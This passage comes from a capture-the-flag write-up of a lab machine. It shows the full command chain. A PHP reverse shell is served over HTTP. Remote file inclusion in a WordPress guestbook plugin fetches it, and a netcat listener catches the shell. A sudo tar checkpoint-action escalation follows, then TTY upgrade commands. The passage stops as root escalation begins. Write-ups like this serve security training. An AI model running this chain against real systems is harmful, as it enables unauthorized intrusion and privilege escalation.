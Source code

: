 ```
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shellwp-load.php
```

Start a web server:

```
python3 -m http.server 8000
```

Then trigger the RFI:

```
curl -s "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.22:8000/shell"
```

Catch the shell:

```
nc -lvnp 9331
```

We land as `www-data`.

***

### 🪍 Escalating to Onuma

Run `sudo -l` as `www-data` reveals:

```
(ALL) NOPASSWD: /bin/tar (as onuma)
```

Use GTFOBins’ tar exploit:

```
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Get TTY:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=tmux-256color
stty rows 46 columns 211
```

Now we’re `onuma`.

***

### ⬆️ Root Privilege Escalation

PS, this section took me almost 2 days. I tried giving it my all, coming after work to solve it, but I couldn't get through. Finally, today (on Sunday morning), after I dedicatedly sat and tried to understand it, I was able to solve it&#x20;

We discover a suspicious systemd timer (via LinPEAS):
